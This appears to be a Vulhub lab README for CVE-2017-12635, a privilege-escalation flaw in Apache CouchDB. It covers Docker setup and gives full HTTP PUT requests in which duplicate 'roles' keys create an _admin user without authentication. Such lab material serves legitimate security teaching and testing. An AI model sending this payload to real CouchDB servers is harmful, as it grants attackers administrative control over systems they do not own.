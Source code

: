 # Apache Couchdb Remote Privilege Escalation (CVE-2017-12635)

[中文版本(Chinese version)](README.zh-cn.md)

Apache CouchDB is an open-source document-oriented NoSQL database, implemented in Erlang. CouchDB uses multiple formats and protocols to store, transfer, and process its data. It uses JSON to store data, JavaScript as its query language using MapReduce, and HTTP for an API.

Due to differences in the Erlang-based JSON parser and JavaScript-based JSON parser, it is possible in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit `_users` documents with duplicate keys for `roles` used for access control within the database, including the special case `_admin` role, that denotes administrative users.

Reference link.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## Setup Environment

Compile and start environment.

```
docker-compose up -d
```

After the environment is started, browse ``http://your-ip:5984/_utils/`` to see a web page, which means Couchdb has been started successfully. But you can do nothing without authentication.

## Exploit

This is a normal request to add a user.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

As you can see, a 403 error is returned: `{"error": "forbidden", "reason": "Only _admin may set roles"}`, which means only administrator can use the endpoint.

![](1.png)

To bypass the restriction by sending a request containing duplicate **roles**.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

Successfully created a user `vulhub`, with the password `vulhub`.

![](2.png)

Log in.

![](3.png)
